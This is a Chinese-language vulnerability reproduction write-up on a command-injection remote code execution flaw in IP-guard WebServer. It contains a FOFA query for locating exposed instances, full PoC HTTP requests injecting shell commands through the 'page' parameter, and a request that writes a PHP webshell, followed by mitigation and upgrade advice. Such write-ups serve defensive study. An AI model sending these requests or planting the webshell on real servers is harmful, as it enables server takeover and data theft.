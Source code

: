 
# IP-guard WebServer RCE漏洞复现

### 0x01 产品简介

   IP-guard是由溢信科技股份[有限公司](https://so.csdn.net/so/search?q=%E6%9C%89%E9%99%90%E5%85%AC%E5%8F%B8&spm=1001.2101.3001.7020)开发的一款终端安全管理软件，旨在帮助企业保护终端设备安全、数据安全、管理网络使用和简化IT系统管理。

### 0x02 漏洞概述

 **漏洞成因**  
    在Web应用程序的实现中，参数的处理和验证是确保应用安全的关键环节。然而，当参数处理不当时，就会出现安全漏洞，给攻击者留下可利用的空间。在此次 IP-guard 的漏洞中，关键问题出现在对某个参数的处理上。该参数原本用于指定要查看的文档页面。但由于未对输入进行适当的过滤和限制，攻击者能够通过命令注入的方式，利用该参数在服务器上执行任意命令。  
**利用特征**  
   针对这个漏洞，从流量层面的利用特征表现在不寻常的HTTP GET请求中。在正常情况下，这个存在漏洞的参数应该只包含数字或预定义格式的数据，用于指定文档的特定页面。然而在攻击流量中，该参数的值包含了操作系统命令，这些命令通常以特殊字符（如管道符 ||）开始，后跟可执行的系统命令。  
**漏洞影响**  
   该漏洞的成功利用允许攻击者在服务器上远程执行命令，导致服务器完全被接管。同时，攻击者不仅可以利用漏洞获取对服务器的控制权，进而还可能访问或删除敏感数据，植入恶意软件，甚至使用服务器作为发起进一步攻击的跳板。

### 0x03 影响范围

 IP-guard < 4.81.0307.0

### 0x04 复现环境

FOFA："IP-guard" && icon\_hash="2030860561"

![](assets/1699929298-08c0979b657c4934ef49ba1179b54b4f.png)

### 0x05 漏洞复现

PoC

```cobol
GET /ipg/static/appr/lib/flexpaper/php/view.php?doc=1.jpg&format=swf&isSplit=true&page=||echo+123456+>1.txt HTTP/1.1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

写文件 

![](assets/1699929298-30cd4130ee8976d499479c3b665cee08.png)

验证 

```cobol
GET /ipg/static/appr/lib/flexpaper/php/1.txt HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![](assets/1699929298-67248e2398f571715e566d8d01d9b78a.png) **漏洞利用**

 写WebShell

```cobol
GET /ipg/static/appr/lib/flexpaper/php/view.php?doc=1.jpg&format=swf&isSplit=true&page=||echo+^<?php+@mb_eregi_replace('.*',$_POST['a'],'','ee');?^>+>1.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![](assets/1699929298-7bcf9dd988a55c712f274570192171ce.png)

验证

![](assets/1699929298-60b3e4d7c34b28f7c632074e7b3a8fa2.png)

### ![](assets/1699929298-6cc5594e236d28344b59d5b06fea4d94.png) 0x06 修复建议

**临时缓解方案**  
    配置入侵检测系统（IDS）和入侵防御系统（IPS）以及Web应用防火墙（WAF），以识别和阻止包含这类特征的请求，从而保护系统免受此类远程命令执行攻击的影响；同时为了避免攻击者绕过安全设备实施攻击，建议尽快修复漏洞。  
   如非必要，不要将 IP-guard 放置在公网上。或通过网络ACL策略限制访问来源，例如只允许来自特定IP地址或地址段的访问请求。  
**升级修复方案**  
   官方已发布新版本修复漏洞，建议尽快访问官网（https://www.ip-guard.net/）或联系官方售后支持获取版本升级安装包或补丁，升级至4.81.0307.0版本及以上
